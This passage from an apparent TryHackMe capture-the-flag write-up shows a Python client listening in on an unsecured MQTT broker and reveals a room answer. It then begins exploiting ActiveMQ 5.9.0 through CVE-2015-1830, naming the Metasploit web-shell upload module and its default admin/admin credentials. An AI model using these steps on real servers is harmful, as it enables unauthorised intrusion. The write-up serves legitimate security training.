 
Shown below is the output to this script.

##### Command:
>python3 mqtt_client_thm.py

```
└─$ python3 mqtt_client_thm.py                                                              
Connected with result code 0

message received:  Paul: Hey, have you played the videogame 'Hacknet' yet?
message topic:  secret_chat
message qos:  0
message retain flag:  0

message received:  Max: Yeah, honestly that's the one game that got me into hacking, since I wanted to know how hacking is 'for real', you know? ;)
message topic:  secret_chat
message qos:  0
message retain flag:  0

message received:  Paul: Sounds awesome, I will totally try it out then ^^
message topic:  secret_chat
message qos:  0
message retain flag:  0

message received:  Max: Nice! Gotta go now, the boss will kill us if he sees us chatting here at work. This broker is not meant to be used like that lol. See ya!
message topic:  secret_chat
message qos:  0
message retain flag:  0
```

Once subscribed, we see the above messages come through. It appears that these messages loop indefinitely. There is not much interesting information here, but we see that the answer to the TryHackMe question is ```Hacknet```. Since this MQTT service is not secured, anyone can connect to it. We have shown how easy it is to subscribe to messages.

### Initial Access to Server

Let's try gain access to the server itself.

As seen in the webpage, this MQTT system is using ActiveMQ v5.9.0. Luckily for us, this version of ActiveMQ is vulnerable to [CVE 2015-1830](https://www.exploit-db.com/exploits/48181) - a directory traversal vulnerability which we will use to gain a shell.

We can now load up Metasploit to exploit this.

##### Command:
>msfconsole<br>
search activeMQ<br>
use multi/http/apache_activemq_upload_jsp

```
msf6 exploit(multi/http/apache_activemq_upload_jsp) > options

Module options (exploit/multi/http/apache_activemq_upload_jsp):

   Name       	Current Setting  Required  Description
   ----       	---------------  --------  -----------
   AutoCleanup	true         	no    	Remove web shells after callback is received
   BasicAuthPass  admin        	yes   	The password for the specified username
   BasicAuthUser  admin        	yes   	The username to authenticate as
   JSP                         	no    	JSP name to use, excluding the .jsp extension (default:
                                          	random)
   Proxies                     	no    	A proxy chain of format type:host:port[,type:host:port]
                                         	[...]
```